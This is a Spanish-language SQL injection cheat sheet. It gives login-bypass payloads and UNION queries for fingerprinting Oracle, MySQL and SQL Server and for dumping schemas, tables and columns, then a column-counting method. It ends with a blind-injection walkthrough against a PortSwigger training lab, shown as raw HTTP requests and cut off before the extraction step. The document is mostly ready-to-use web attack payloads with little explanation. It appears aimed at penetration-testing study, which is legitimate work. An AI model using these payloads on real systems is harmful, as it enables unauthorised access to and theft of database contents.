 # SQL Injection
La inyección SQL es una vulnerabilidad de seguridad en aplicaciones web que permite a un atacante insertar código SQL malicioso en las consultas a una base de datos. Esto puede comprometer la integridad de los datos, revelar información confidencial o permitir acciones no autorizadas en el sistema afectado.

## Payloads de autenticación
```sql
abc' or 1=1-- -
abc' or 1=1#
abc' or '1'='1
```
## Recopilar información de la base de datos
### Version
#### Oracle
```sql
' union select BANNER,null from v$version-- -
' union select VERSION,null from V$INSTANCE-- -
```
#### MySQL
```sql
' union select @@version,null-- -
' union select VERSION(),null-- -
```
#### Microsoft SQL Server
```sql
' union select @@version,null-- -
' union select SERVERPROPERTY('productversion'),null-- -
```
### Bases de datos
#### Non-Oracle
```sql
' union select null,DISTINCT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
#### Oracle
```sql
' union select null,DISTINCT(USERNAME) FROM ALL_USERS-- -
```
### Tablas
#### Non-Oracle
```sql
' union select null,table_name FROM information_schema.tables-- -
```
#### Oracle
```sql
' union select null,table_name from all_tables-- -
```
### Columnas
#### Non-Oracle
```sql
' union select null,column_name FROM information_schema.columns where table_name='NOMBRE DE LA TABLA'-- -
```
#### Oracle
```sql
' union select null,column_name from all_tab_columns where table_name='NOMBRE DE LA TABLA'-- -
```
## Metodologia inyección basada en errores
### Determinar el numero de columnas
```sql
abc' order by 3-- -
# Respuesta 200 OK
abc' order by 20 -- -
# Respuesta 500 Internal Server Error
```
Hay por lo menos 3 columnas y menos de 20, cambiar los numeros hasta determinar el numero de columnas. Una vez encontrado el numero iniciaremos una query union select.

Supongamos que el numero de columnas reflejado es 4 primero lo confirmaremos de la siguiente forma
```sql
abc' union select null,null,null,null-- -
```
### Determinar los campos de los que se puede obtener informacion
Ahora determinaremos cual de los 4 campos es de tipo cadena para poder hacer querys sobre ese campo, introduciremos una cadena aleatoria dentro de cada uno para ver cual es reflejado.
```sql
abc' union select 'v0ydRT',null,null,null-- - # 500
abc' union select null,'v0ydRT',null,null-- - # 500
abc' union select null,null,'v0ydRT',null-- - # 200 -> Aqui se pueden injectar querys
abc' union select null,null,null,'v0ydRT'-- - # 500
```
Despues de eso se utiliza toda la informacion aterior para recopilar la informacion de la base de datos.


## Dumpear todos los valores de N numeros de columnas en una sola consulta (MySQL)
Suponiendo que despues de utilizar la metodologia anterior solo podemos injectar sentencias en un campo, podemos utilizar la funcion CONCAT() para extraer valores del numero de columnas que queramos
```sql
' union select null,CONCAT(COLUMNA 1,':',COLUMNA 2) from TABLA-- -
```
## Blind SQL injection conditional responses
En un ataque blind SQL injection el atacante explora la base de datos mediante consultas que, dependiendo de la respuesta del servidor (como respuestas verdaderas o falsas), le permiten inferir datos confidenciales o estructura de la base de datos sin acceder directamente a los resultados.

Ejemplo: El laboratorio https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

"This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called ```users```, with columns called ```username``` and ```password```. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. "

En la siguiente peticion recibimos el mensaje "Welcome back"
```http
GET / HTTP/2
Host: 0a6f0036037b631e8c38b2a0004e009e.web-security-academy.net
Cookie: TrackingId=iYMM1GrXuxAnojK7' and 1=1-- -; session=MVg9****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
```
Y en esta no recibimos el mensaje "Welcome back"
```http
GET / HTTP/2
Host: 0a6f0036037b631e8c38b2a0004e009e.web-security-academy.net
Cookie: TrackingId=iYMM1GrXuxAnojK7' and 1=2-- -; session=MVg9****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
```
Por lo que podemos inferir que si una consulta es verdadera recibimos el mensaje "Welcome back" y si es falsa no lo recibimos, aunque podemos observar un patron de comportamiento por parte del servidor, aun asi no podemos ver ningun tipo de informacion en nuestras consultas por lo que temos que extraer la informacion letra por letra utilizando la funcion SUBSTRING().
